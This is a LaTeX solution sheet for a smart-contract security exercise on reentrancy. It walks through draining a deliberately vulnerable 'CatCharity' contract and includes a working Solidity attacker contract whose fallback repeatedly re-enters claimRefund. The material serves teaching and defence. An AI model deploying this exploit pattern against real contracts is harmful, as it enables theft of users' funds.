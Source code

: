 \documentclass[12pt]{article}
\title{Smart Contracts Exercise 05: \\ Reentrancy --- Solution}
\author{}
\date{}
\begin{document}
\maketitle

\noindent
The solution to Exercise 5 can be found in this \href{https://github.com/radovluk/Smart-Contract-Exercise/tree/main/05-Re-Entrancy/solution/solution-code}{GitHub repository}.

\subsection*{Task 1: Cat Charity Hijinks}

\begin{enumerate}
  \item The attacker sends a small donation to the \texttt{CatCharity} contract to record their donation.
  \item The attacker immediately calls the \texttt{claimRefund} function, triggering the reentrancy vulnerability.
  \item While the \texttt{claimRefund} function is executing, the attacker's contract falls back into the \texttt{claimRefund} function multiple times, draining the \texttt{CatCharity} contract's Ether balance.
  \item This attack continues until the charity's balance is completely drained and the funds are transferred to the attacker.
\end{enumerate}

\noindent
\begin{minipage}{\textwidth}
\begin{lstlisting}[language=Solidity]
contract CatAttacker {
    CatCharity public catCharity;

    constructor(address _catCharityAddress) {
        catCharity = CatCharity(_catCharityAddress);
    }

    /**
     * @notice Initiates the reentrancy attack.
     * @dev We donate a small amount so that we (the Attacker contract)
     *      have a 'donation' recorded, then immediately claim the refund,
     *      reentering until the charity's entire balance is drained.
     */
    function attack() external payable {
        // Step 1: Donate a tiny bit from this contract
        catCharity.donate{value: msg.value}();

        // Step 2: Start the refund loop
        catCharity.claimRefund();

        // Step 3: Send the money back to the player
        (bool success, ) = msg.sender.call{value: address(this).balance}("");
        require(success, "Transfer failed");
    }

    // Fallback triggered whenever this contract receives Ether
    receive() external payable {
        // If there's still ETH left in the CatCharity, reclaim it
        if (address(catCharity).balance > 0) {
            catCharity.claimRefund();
        }
    }
}
\end{lstlisting}
\end{minipage}
\end{document}
